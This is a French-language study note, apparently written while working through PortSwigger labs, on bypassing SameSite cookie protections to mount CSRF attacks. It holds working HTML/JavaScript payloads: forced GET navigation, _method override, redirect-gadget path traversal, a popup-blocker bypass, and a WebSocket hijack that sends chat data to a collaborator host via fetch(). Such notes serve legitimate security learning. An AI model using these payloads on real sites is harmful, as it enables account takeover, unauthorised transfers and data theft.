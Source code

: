 > Contourner les restrictions de cookies [SameSite](../SameSite)

## Bypassing SameSite Lax restrictions using GET requests

(Contournement des restrictions SameSite Lax à l'aide de requêtes GET | Contournement de SameSite Lax via la substitution de méthode)

Si un site  appliquent des restrictions `Lax` à leurs **cookies de session**, explicitement ou par défaut, vous pouvez toujours lancer une attaque CSRF en sollicitant **une `GET`requête du navigateur de la victime.**

> Tant que la requête `implique une navigation de premier niveau`, le navigateur inclura le cookie de session de la victime.

Voici l'une des approches les plus simples pour lancer une telle attaque :

```html
<script>
    document.location = 'https://vulnerable-website.com/account/transfer-payment?recipient=hacker&amount=1000000';
</script>
```

Même si une requête ordinaire `GET` n'est pas autorisée, certains frameworks permettent de surcharger la méthode spécifiée dans la ligne de requête. 

Par exemple, Symfony prend en charge le paramètre `_method` dans les formulaires, qui prime sur la méthode normale pour le routage :

```html
<form action="https://vulnerable-website.com/account/transfer-payment" method="POST">
    <input type="hidden" name="_method" value="GET">
    <input type="hidden" name="recipient" value="hacker">
    <input type="hidden" name="amount" value="1000000">
</form>
```

Exploitation par GET

```html
<script>
document.location = "https://vulnerable-website.com/account/transfer-payment?recipient=hacker&amount=1000000&_method=POST"
</script>
```


> Un site qui protège ses cookies avec `SameSite=Lax` n’empêche **pas** les requêtes issues d’une **navigation de premier niveau** (clics, redirections, `window.location`, formulaires) : dans ces cas le navigateur envoie le cookie de session. Si le serveur exécute des actions sensibles en réponse à une **requête GET** (ou accepte qu’on remplace la méthode via un paramètre comme `_method`), un attaquant peut forcer la victime à naviguer vers une URL malveillante et déclencher cette action à sa place (attaque CSRF).


## Bypassing SameSite restrictions using on-site gadgets

(Contourner les restrictions SameSite à l'aide de gadgets sur site | Contournement strict de SameSite via la redirection côté client)

Si un cookie a l’attribut `SameSite=Strict`, le navigateur ne l’enverra pas quand une page d’un autre site fait une requête.  

Mais on peut contourner ça si le **site lui‑même** contient un petit code (un « gadget ») qui crée ensuite une **nouvelle** requête vers ce même site. (url des commentaire, url de redirection etc...)

Par exemple, `le gadget peut prendre un paramètre d’URL (contrôlable par un attaquant)` et `faire une redirection côté client vers une autre page du même site`. Pour le navigateur, cette redirection est juste une nouvelle requête normale vers le **même domaine**, donc tous les cookies du site (même avec `SameSite=Strict`) sont envoyés.

Si un attaquant peut contrôler ce gadget pour forcer une telle requête interne, il peut contourner totalement la protection `SameSite`.

```html
<script>
    document.location = "https://target.com/post/comment/confirmation?postId=../../my-account/change-email?email=pwned@web-security-academy.net&submit=1";
</script>
```

## Bypassing SameSite restrictions via vulnerable sibling domains

(Contournement des restrictions SameSite via des domaines frères vulnérables | Contournement strict de SameSite via un domaine frère)

Que vous testiez le site Web de quelqu'un d'autre ou que vous essayiez de sécuriser le vôtre, il est essentiel de garder à l'esprit qu'une demande peut toujours provenir du même site même si elle est émise sur plusieurs origines.

Assurez-vous d'auditer minutieusement toute la surface d'attaque disponible, y compris les domaines frères. En particulier, les vulnérabilités permettant de déclencher une requête secondaire arbitraire, comme XSS, peuvent compromettre complètement les défenses du site, exposant ainsi tous les domaines du site à des attaques intersites.


> Même si tu appliques `SameSite` aux cookies, un site _frère_ (un sous-domaine ou domaine proche) vulnérable peut toujours servir de vecteur pour contourner ces protections. Si ce domaine frère permet par exemple une XSS ou toute requête arbitraire côté client, alors il peut déclencher des requêtes « du même site » et réussir des attaques CSRF ou des détournements de WebSocket (CSWSH).  

**Pourquoi c’est important (conceptuel)**

- `SameSite` réduit l’envoi de cookies dans des requêtes cross-site _depuis d’autres origines_.
- **Mais** si l’attaquant contrôle un _domaine frère_ (ex : `attacker.example.com`) qui partage la même racine de cookie (`.example.com`) ou a des possibilités JS pour appeler le domaine ciblé, la requête peut être considérée comme « venant du même site » ou les cookies peuvent être envoyés, rendant `SameSite` insuffisant.
- Les vulnérabilités comme **XSS** sur un domaine frère sont donc catastrophiques : elles permettent d’exécuter du JS qui effectue des requêtes authentifiées contre les autres sous-domaines.
- Les **WebSockets** : la poignée de main WS commence par une requête HTTP/HTTPS — si cette requête inclut des cookies et que l’origine est acceptée, un attaquant peut établir une socket authentifiée (CSWSH = Cross-Site WebSocket Hijacking).

**Exemple concret (rapide)**

- Domaine cible : `app.example.com`
- Cookie d’auth : `Set-Cookie: session=ABC; Domain=.example.com; SameSite=Strick`
- Domaine vulnérable : `blog.example.com` contient une XSS.  
    Si un attaquant injecte du JS dans `blog.example.com`, ce JS peut faire une requête `POST https://app.example.com/transfer` — le navigateur inclura le cookie `session=ABC` parce que le cookie est défini sur `.example.com`. Résultat : CSRF réussi malgré SameSite.

**CSRF + WebSocket**

https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-strict-bypass-via-sibling-domain

```html
<script>
    var ws = new WebSocket('wss://YOUR-LAB-ID.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://YOUR-COLLABORATOR-PAYLOAD.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```



## Bypassing SameSite Lax restrictions with newly issued cookies

(Contourner les restrictions SameSite Lax avec les cookies nouvellement émis | Contournement de SameSite Lax via l'actualisation des cookies)

Par défaut, Chrome applique `SameSite=Lax` si l’attribut n’est pas défini. Normalement, ça bloque l’envoi des cookies dans les requêtes POST intersites. Mais, pour ne pas casser les mécanismes d'authentification unique SSO, Chrome fait une exception : pendant 2 minutes après la création d’un cookie, il sera quand même envoyé dans ces requêtes. Résultat : **l’utilisateur reste vulnérable au CSRF pendant cette courte fenêtre.**

> La règle des **2 minutes** ne concerne **que les cookies sans attribut `SameSite`** (donc ceux pour lesquels Chrome applique automatiquement `Lax` par défaut).
> 
> Si le développeur définit **explicitement** `SameSite=Lax`, alors **la fenêtre d’exception de 2 minutes n’existe pas**.


Programmer l’attaque pendant la fenêtre de 2 minutes est courte et difficile à exploiter directement. Une stratégie plus réaliste consiste à provoquer **préalablement** le renouvellement du cookie de session de la victime (par exemple via un flux de connexion SSO/OAuth qui renouvelle la session). 

Pour que ce renouvellement se produise sans que la victime ait à se reconnecter manuellement, il faut déclencher une **navigation de niveau supérieur** (top-level) vers la page qui effectue la régénération du cookie: le navigateur inclura alors les cookies existants OAuth pendant cette navigation et la session sera mise à jour automatiquement. 

Une fois le cookie « frais » en place, l’attaquant peut tenter l’action ciblée.

On peut aussi ouvrir la page de renouvellement dans un **nouvel onglet**, ce qui laisse la victime sur la page d’origine pendant que la session est actualisée — mais les navigateurs bloquent généralement les pop-ups/onglets ouverts automatiquement à moins que l’ouverture ne soit liée à une **action utilisateur** (clic). 

C’est pourquoi les techniques qui ouvrent un nouvel onglet sont souvent liées à un événement déclenché par l’utilisateur (clic, touche, etc.), afin d’éviter le blocage automatique.

```js
window.onclick = () => {
    window.open('https://vulnerable-website.com/login/sso');
}
```

De cette façon, la méthode `window.open()` n'est invoquée que lorsque l'utilisateur clique quelque part sur la page

**Contourner le bloqueur de popups**

```html
<form method="POST" action="https://0a7e00c804b1c02e80ccc2c70083003a.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="pwned@portswigger.net">
</form>
<script>
    window.onclick = () => {
        window.open('https://0a7e00c804b1c02e80ccc2c70083003a.web-security-academy.net/social-login');
        setTimeout(changeEmail, 5000);
    }

    function changeEmail() {
        document.forms[0].submit();
    }
</script>
```


**Étapes de l’attaque (résumé technique)**

1. Repérer une page/endpoint sur le domaine cible qui force la création/renouvellement d’une session (ex : flow OAuth, endpoint “reconnect”).
2. Forcer une **navigation top-level** de la victime vers cette page (pour que les cookies d’authentification soient inclus).
3. Une fois la session mise à jour, rediriger la victime vers une page sous ton contrôle.
4. Depuis ta page, lancer la requête malveillante (POST, etc.) qui profitera du cookie tout juste émis.
